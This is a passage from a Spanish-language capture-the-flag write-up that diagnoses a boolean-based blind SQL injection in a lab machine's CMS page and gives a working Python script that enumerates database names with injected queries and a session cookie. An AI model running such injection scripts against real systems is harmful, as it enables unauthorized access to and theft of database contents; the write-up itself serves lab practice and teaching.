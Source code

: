 ![[Pasted image 20240315094524.png]]

Viendo el error nos podemos dar a la idea de que es una inyeccion sql de tipo boolean based blind por lo que tendremos que hacer un script para enumerar todas las bases de datos, tablas, columnas y datos en el script solo se tendria que especificar la cookie y la url en cuestion ya con esto  quedaria de la siguiente manera: 


```python
#!/usr/bin/python3


import requests

import pandas as pd


url = "http://192.168.0.85/imfadministrator/cms.php?"
cookies = {"PHPSESSID": "59lq96i7armmubs25li5osgpp6"}
headers = {"Content-Type": "application/x-www-form-urlencoded"}


def makeSQLI():
    posicion = 1
    char = 44
    db = ""

    while True:
        url_db = url + (
            f"pagename=home'or substring((select group_concat(schema_name) from information_schema.schemata),{posicion},1)='{chr(char)}"
        )
        response = requests.get(url_db, cookies=cookies, headers=headers)

        if (
            "Welcome to the IMF Administration." not in response.text
            and "mysqli_fetch_row() expects parameter 1 to be mysqli_result, boolean given in <b>/var/www/html/imfadministrator/cms.php</b> on line"
            not in response.text
            and chr(char).isupper() == False
        ):
            db += chr(char)
            char = 44
            posicion += 1
        else:
            char += 1

        if char == 123:
            break
    posicion = 1
    char = 44

    lista_db = db.split(",")

    nueva_lista_db = []

    for i in lista_db:
        if (
            i != "performance_schema"
            and i != "sys"
            and i != "information_schema"
            and i != "mysql"
        ):
            nueva_lista_db.append(i)
```